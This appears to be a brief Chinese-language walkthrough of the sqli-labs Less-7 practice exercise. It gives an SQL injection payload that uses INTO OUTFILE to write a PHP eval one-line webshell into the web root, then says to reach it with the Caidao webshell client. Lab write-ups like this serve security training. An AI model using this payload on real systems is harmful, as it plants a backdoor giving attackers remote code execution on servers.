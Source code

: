 提示使用out_file判断需要文件操作。

直接写入一句话木马。

```javascript
?id=1'))union select 1,2,
'<?php @eval($_post["mima"])?>' into outfile 
"H:\\WWW\\sql-labs\\Less-7\\shell.php"--+
```



![](images/9D03E338CFB24C4FB10B6D9BFF587CD6clipboard.png)

虽然提示报错，但是木马已经写入成功了。使用菜刀 访问文件即可。

![](images/61112A8499AB4AE1B8D5EBAC1EFE7179clipboard.png)



这里有个需要注意的点id的参数需要使用括号闭合。而且还是两个😶。

![](images/D6829ABF769A486382E740F2D4B59673clipboard.png)

